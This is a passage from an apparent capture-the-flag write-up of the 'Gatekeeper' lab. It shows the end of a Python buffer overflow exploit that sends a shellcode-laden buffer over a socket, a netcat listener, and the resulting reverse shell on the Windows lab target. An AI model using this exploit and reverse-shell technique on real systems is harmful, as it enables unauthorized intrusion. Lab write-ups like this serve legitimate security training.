```py
shellcode += b"\xa5\xbe\x42\x6f\xb6\x2a\x64\xdc\xb7\x7e"

buffer = payload + nop + shellcode

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# nc -lnvp 443
listening on [any] 443 ...
```

**Run the exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.192.183] 49173
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami && ipconfig
gatekeeper\natbat

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::68c6:44a8:9d3a:1bb9%17
   IPv4 Address. . . . . . . . . . . : 10.10.192.183
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal

C:\Users\natbat\Desktop>
```
